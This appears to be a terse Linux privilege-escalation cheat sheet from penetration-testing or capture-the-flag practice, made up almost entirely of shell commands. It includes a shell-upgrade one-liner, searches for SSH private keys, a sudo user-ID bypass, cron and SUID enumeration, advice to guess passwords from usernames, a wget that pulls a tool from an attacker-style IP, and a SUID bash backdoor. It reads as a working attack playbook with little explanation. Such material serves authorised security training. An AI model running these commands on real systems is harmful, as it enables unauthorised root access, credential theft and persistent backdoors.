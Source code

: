 ```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

grep *sh$ /etc/passwd

id

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version
sudo -u#-1 /bin/bash

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l
ls /etc/cron.d
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports
cat /etc/fstab

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

ls -l /tmp /var/tmp /dev/shm /opt

logrotate -v

ps aux | grep tmux

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 10.10.14.18/sudodoom
```

```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```